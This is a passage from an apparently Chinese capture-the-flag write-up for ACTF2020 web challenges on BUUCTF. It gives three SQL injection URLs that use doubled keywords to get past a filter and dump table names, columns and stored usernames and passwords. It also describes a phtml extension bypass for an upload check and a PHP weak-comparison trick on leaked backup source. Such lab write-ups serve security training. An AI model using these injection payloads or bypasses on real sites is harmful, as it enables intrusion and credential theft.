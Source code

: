 ```txt
/check.php?username=admin&password=1'+uniunionon+selselectect+1,(seleselectct+group_concat(table_name)+frfromom+infoorrmation_schema.tables+whwhereere+table_schema%3ddatabase()),3%23


/check.php?username=admin&password=1'+uniunionon+selselectect+1,(seleselectct+group_concat(column_name)+frfromom+infoorrmation_schema.columns+whwhereere+table_name='b4bsql'),3%23


/check.php?username=admin&password=1'+uniunionon+selselectect+1,(seleselectct+group_concat(id,username,passwoorrd)+frfromom+b4bsql),3%23
```

## [ACTF2020 新生赛]Upload

右键源码，发现上传点

![image-20210405153702359](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405153702.png)

后缀名`phtml` 绕过

## [ACTF2020 新生赛]BackupFile

扫目录会被🈲。

盲猜备份文件

```txt
http://e3026dac-3357-4454-bc1b-f5e8228c8fb2.node3.buuoj.cn/index.php.bak
```

得到

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

弱比较，传参123即可。
